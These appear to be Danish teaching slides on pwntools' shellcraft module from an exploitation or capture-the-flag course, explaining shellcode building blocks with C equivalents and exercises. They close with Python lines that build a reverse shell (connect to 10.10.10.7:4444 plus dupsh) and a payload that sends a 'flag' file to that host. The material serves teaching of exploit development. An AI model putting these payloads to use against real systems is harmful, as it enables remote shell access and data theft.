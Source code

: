 Shellcraft
----------
Shellcraft er pwntools samling af shellcode.

TIP: For de interesserede ligger al shellcode under 'pwnlib/shellcraft/templates' og er skrevet i Mako templates.

Shellcraft
----------
Shellcraft er pwntools samling af shellcode.

[source,bash]
------------------------------------------------
$ shellcraft | grep i386.linux
i386.linux.acceptloop_ipv4
i386.linux.connect
i386.linux.connectstager
....
i386.linux.sh
i386.linux.stager
i386.linux.syscall
------------------------------------------------

Byggeklodser really, plus et par færdigbyggede klar-til-brug.

Shellcraft
----------
'findpeer' er en ret fantastisk byggeklods.

[source,bash]
------------------------------------------------
$ shellcraft i386.linux.findpeer -?                           
Args: port (defaults to any port)
    Finds a socket, which is connected to the specified port.
    Leaves socket in ESI.
------------------------------------------------

Den gør ca. dette:
[source,c]
------------------------------------------------
struct sockaddr_in addr;
socklen_t addrlen = sizeof(struct sockaddr_in);
int socket = 0;
while (getpeername(socket, &addr, &addrlen) < 0) {
    socket++;
}
/* yay, a connected socket has been found */
------------------------------------------------

[source,bash]
------------------------------------------------
$ shellcraft -f a i386.linux.findpeer
findpeer_1:
    push -1
    push SYS_socketcall_getpeername
.....
------------------------------------------------

Opgave 3
--------
Opgave tre bliver at udbygge opgave to til at sende "Hello world" tilbage til os over vores eksisterende forbindelse.

Opgave 4
--------
Lav opgave tre fuldstændig med shellcraft byggeklodser.

Opgave 5
--------
Skær alt unødvendigt væk fra opgave fire.

Standard single stage shellcodes
--------------------------------
* sh (til lokale exploits)
* dupsh (til remote exploits)
* listen (branch i386-bindshell tilføjer den)
* connect
* findpeer
* readfile

Standard single stage shellcodes - sh
-------------------------------------
Eksekverer en shell. I sin rene form kan den kun bruges i lokale exploits.

Gør ca. dette:
[source,c]
------------------------------------------------
execve("/bin/sh", 0, 0);
------------------------------------------------

Standard single stage shellcodes - dupsh
----------------------------------------
Omdirrigerer standard in, standard out og standard error til en given file descriptor (socket?) og eksekverer en shell.

[source,c]
------------------------------------------------
dup2(fd, 2);
dup2(fd, 1);
dup2(fd, 0);
execve("/bin/sh", 0, 0);
------------------------------------------------

Giver mest mening efter enten 'listen', 'connect' eller 'findpeer'.

TIP: 'findpeersh' er lig med 'findpeer + dupsh'

Standard single stage shellcodes - listen
-----------------------------------------
Laver en server socket og accepterer første forbindelse på en given port.

[source,c]
------------------------------------------------
struct sockaddr_in addr;
int server, client;
server = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_port = htons(port); //port argument required
addr.sin_addr.s_addr = INADDR_ANY;
bind(server, &addr, sizeof(struct sockaddr_in));
listen(server, 1);
client = accept(server);
------------------------------------------------

TIP: Er god sammen med 'readfile' eller 'dupsh'.

TIP: Understøtter både IPv4 og IPv6!!!

Standard single stage shellcodes - connect
------------------------------------------
Forbinder til en server på en given port. Specificeres et hostname bliver det resolved lokalt inden shellcoden genereres med hardcoded IP adresse.

[source,c]
------------------------------------------------
struct sockaddr_in addr;
int client;
client = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_port = htons(port); //port argument required
addr.sin_addr.s_addr = some_address; //address argument required
connect(client, &addr, sizeof(struct sockaddr_in));
------------------------------------------------

TIP: Er god sammen med 'readfile' eller 'dupsh'.

TIP: Understøtter både IPv4 og IPv6!!!

Standard single stage shellcodes - findpeer
-------------------------------------------
Har vi snakket om, men her er den igen:

[source,c]
------------------------------------------------
struct sockaddr_in addr;
socklen_t addrlen = sizeof(struct sockaddr_in);
int socket = 0;
while (getpeername(socket, &addr, &addrlen) < 0) {
    socket++;
}
------------------------------------------------

TIP: Er god sammen med 'readfile' eller 'dupsh'.

TIP: Understøtter både IPv4 og IPv6!!!

Standard single stage shellcodes - readfile
-------------------------------------------
Åbner en fil og sender dens indhold til en given file descriptor (f.eks. en socket).

[source,c]
------------------------------------------------
struct stat st;
int file = open(path, O_RDONLY); //path argument required
fstat(file, &st);
sendfile(some_file_descriptor, file, 0, st.st_size);
------------------------------------------------

Standard single stage shellcodes - connect + dupsh
--------------------------------------------------
[source,bash]
------------------------------------------------
$ shellcraft i386.linux.connect -?
Connects to the host on the specified port.
Leaves the connected socket in ebp

Arguments:
    host(str): Remote IP address or hostname (as a dotted quad / string)
    port(int): Remote port
    network(str): Network protocol (ipv4 or ipv6)
$ shellcraft i386.linux.dupsh -?                                           
Args: [sock (imm/reg) = ebp]
    Duplicates sock to stdin, stdout and stderr and spawns a shell.
$
------------------------------------------------

'connect' efterlader en socket i 'ebp'.

'dupsh' tager en input file descriptor, men dens default værdi er 'ebp'.

Standard single stage shellcodes - connect + dupsh
--------------------------------------------------
[source,python]
------------------------------------------------
SHELLCODE = asm(shellcraft.connect('10.10.10.7', 4444) + \
                shellcraft.dupsh())
------------------------------------------------

Standard single stage shellcodes - connect + readfile
-----------------------------------------------------
[source,bash]
------------------------------------------------
$ shellcraft i386.linux.connect -?                                         
Connects to the host on the specified port.
Leaves the connected socket in ebp

Arguments:
    host(str): Remote IP address or hostname (as a dotted quad / string)
    port(int): Remote port
    network(str): Network protocol (ipv4 or ipv6)
$ shellcraft i386.linux.readfile -?
Args: [path, dst (imm/reg) = esi ]
    Opens the specified file path and sends its content to the specified file descriptor.
$
------------------------------------------------

'connect' efterlader en socket i 'ebp'.

'readfile' tager en filedescriptor, men dens default værdi er 'esi'.

Standard single stage shellcodes - connect + readfile
-----------------------------------------------------
[source,python]
------------------------------------------------
SHELLCODE = asm(shellcraft.connect('10.10.10.7', 4444) + \
                shellcraft.readfile('flag', 'ebp'))
------------------------------------------------
